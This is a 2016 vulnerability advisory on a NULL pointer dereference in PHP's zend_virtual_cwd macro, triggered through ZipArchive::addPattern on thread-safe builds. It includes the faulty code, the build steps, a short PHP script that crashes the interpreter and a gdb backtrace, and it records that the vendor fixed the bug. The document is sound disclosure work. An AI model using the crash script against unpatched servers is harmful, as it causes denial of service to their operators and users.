# PHP NULL pointer dereference in zend_virtual_cwd #

* _Author_: Martino Sani 
* _Release date_: 2016-07-23
* _Software_: www.php.net
* _Version_: master-Git-2016-07-23 (Git)
* _Reference_: https://bugs.php.net/bug.php?id=72660
* _CVE_: -

## Description ##

One of the IS_ABSOLUTE_PATH macro in zend_virtual_cwd.h file does not verify that the path is not null. This could lead to a null pointer dereference issue.
I triggered the issue through ZipArchive::addPattern function and ZTS (Zend Thread Safety) enabled, but maybe it could be triggered via different vectors.

http://php.net/manual/en/ziparchive.addpattern.php reports that the default value of $path argument is "." but in my tests it was null.

`zend_virtual_cwd.h (line 112)`:
```c
#ifndef IS_ABSOLUTE_PATH
#define IS_ABSOLUTE_PATH(path, len) \
        (IS_SLASH(path[0]))
#endif
```

`php_zip.c (line 609)`
```c
#ifdef ZTS
if (!IS_ABSOLUTE_PATH(path, path_len)) {
   result = VCWD_GETCWD(cwd, MAXPATHLEN);
```   

**PHP builded using the following commands:**
```
./buildconf --force
./configure --enable-zip --enable-maintainer-zts
make && make install
```

**Test script:**
```php
$zip = new ZipArchive();
$zip->open("foo.zip", ZIPARCHIVE::CREATE);
$zip->addPattern("/\./");
$zip->close();
?>
```
**Expected result:**

PHP interpreter should not crash.

**Actual result:**

Program received signal SIGSEGV, Segmentation fault.

```
Program received signal SIGSEGV, Segmentation fault.

0x0000000001f7e049 in php_zip_pcre (regexp=<optimized out>, path=0x0, path_len=<optimized out>, return_value=<optimized out>) at ext/zip/php_zip.c:610
warning: Source file is more recent than executable.
610             if (!IS_ABSOLUTE_PATH(path, path_len)) {

(gdb) bt

#0  0x0000000001f7e049 in php_zip_pcre (regexp=<optimized out>, path=0x0, path_len=<optimized out>, return_value=<optimized out>) at ext/zip/php_zip.c:610
#1  0x0000000001f9cb8b in php_zip_add_from_pattern (execute_data=<optimized out>, return_value=<optimized out>, type=<optimized out>) at ext/zip/php_zip.c:1669
#2  0x000000000276ddd4 in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER (execute_data=<optimized out>) at Zend/zend_vm_execute.h:970
#3  0x0000000002673052 in execute_ex (ex=<optimized out>) at Zend/zend_vm_execute.h:432
#4  0x0000000002673c2f in zend_execute (op_array=<optimized out>, return_value=<optimized out>) at Zend/zend_vm_execute.h:474
#5  0x000000000242b711 in zend_execute_scripts (type=<optimized out>, retval=<optimized out>, file_count=<optimized out>) at Zend/zend.c:1447
#6  0x000000000202ccce in php_execute_script (primary_file=0x7fffffffcd20) at main/main.c:2533
#7  0x0000000002a97fe3 in do_cli (argc=<optimized out>, argv=<optimized out>) at sapi/cli/php_cli.c:990
#8  0x0000000002a9385c in main (argc=3, argv=0x60300000ee30) at sapi/cli/php_cli.c:1378

(gdb) info args

regexp = <optimized out>
path = 0x0
```

## NOTES ##

* 2016-07-23: Vendor notification.
* 2016-07-24: Vendor fixes the issue.

The author is not responsible for the misuse of the information provided in this advisory.


